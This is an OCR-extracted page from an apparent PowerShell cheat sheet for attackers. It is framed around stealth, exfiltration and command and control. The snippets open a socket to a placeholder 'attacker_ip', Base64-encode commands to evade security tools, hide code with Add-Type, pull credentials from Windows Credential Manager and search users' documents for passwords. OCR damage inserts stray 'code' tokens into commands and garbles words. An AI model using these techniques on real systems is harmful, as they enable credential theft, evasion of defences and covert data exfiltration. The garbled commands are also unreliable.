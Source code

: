 Establishes a network connection for quiet data transmission, useful for maintaining stealth during data exfiltration or command and control operations.

```powershell
$client = New-Object Net.Sockets.TcpClient('attacker_ip', 443); $stream = $client.GetStream(); # Send and receive data
```

### Base 64 Encoding for Command Obfuscation

Encodes a PowerShell command in Base64 to obfuscate it, making it less detectable by security tools.

```powershell
$command = 'Get-Process'; $encodedCommand =code
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command)); powershell.exe -code
EncodedCommand $encodedCommand
```

### Utilizing PowerShell Add-Type for CCooddee Execution

Defines and executes code within a custom .NET class using PowerShell, which can be used to hide malicious activities within seemingly benign code

```powershell
Add-Type -TypeDefinition 'using System; public class MyClass { public static void Run() {
Console.WriteLine("Executed"); } }'; [MyClass]::Run()
```

### Extracting Credentials from Windows Credential Manager

This command utilizes the PSCredentialManager module to extract stored credentials from the Windows Credential Manager, focusing on generic 
credentials.

```powershell
$credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

### Retrieving Passwords from Unsecured Files

Searches for the term ‘password’ in all text les within the Documents folders of all users, which can reveal passwords stored insecurely.

```powershell
Select-String -Path C:\Users\*\Documents\*.txt -Pattern 'password' -CaseSensitive
```

### Dumping Credentials from Windows Services

Lists Windows services that are running under a specic user account, which can sometimes include
credentials in the service conguration.

```powershell
Get-WmiObject win32_service | Where-Object {$_.StartName -like '*@*'} | Select-Object Name, StartName,DisplayName
```
